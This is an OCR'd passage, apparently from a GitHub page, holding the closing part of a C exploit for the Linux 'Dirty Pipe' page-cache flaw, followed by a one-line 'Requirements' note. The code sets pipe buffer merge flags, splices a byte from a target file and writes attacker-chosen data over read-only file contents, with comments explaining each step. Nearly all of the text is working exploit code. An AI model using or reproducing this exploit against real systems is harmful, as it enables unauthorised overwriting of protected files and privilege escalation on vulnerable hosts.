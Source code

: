 ```c
	}

	if (offset > st.st_size) {
		fprintf(stderr, "Offset is not inside the file\n");
		return EXIT_FAILURE;
	}

	if (end_offset > st.st_size) {
		fprintf(stderr, "Sorry, cannot enlarge the file\n");
		return EXIT_FAILURE;
	}

	/* create the pipe with all flags initialized with
	   PIPE_BUF_FLAG_CAN_MERGE */
	int p[2];
	prepare_pipe(p);

	/* splice one byte from before the specified offset into the
	   pipe; this will add a reference to the page cache, but
	   since copy_page_to_iter_pipe() does not initialize the
	   "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
	--offset;
	ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
	if (nbytes < 0) {
		perror("splice failed");
		return EXIT_FAILURE;
	}
	if (nbytes == 0) {
		fprintf(stderr, "short splice\n");
		return EXIT_FAILURE;
	}

	/* the following write will not create a new pipe_buffer, but
	   will instead write into the page cache, because of the
	   PIPE_BUF_FLAG_CAN_MERGE flag */
	nbytes = write(p[1], data, data_size);
	if (nbytes < 0) {
		perror("write failed");
		return EXIT_FAILURE;
	}
	if ((size_t)nbytes < data_size) {
		fprintf(stderr, "short write\n");
		return EXIT_FAILURE;
	}

	printf("It worked!\n");
	return EXIT_SUCCESS;
}
```

## Requirements
This exploit doesn't allow us to create files, only overwrite information contained within them.
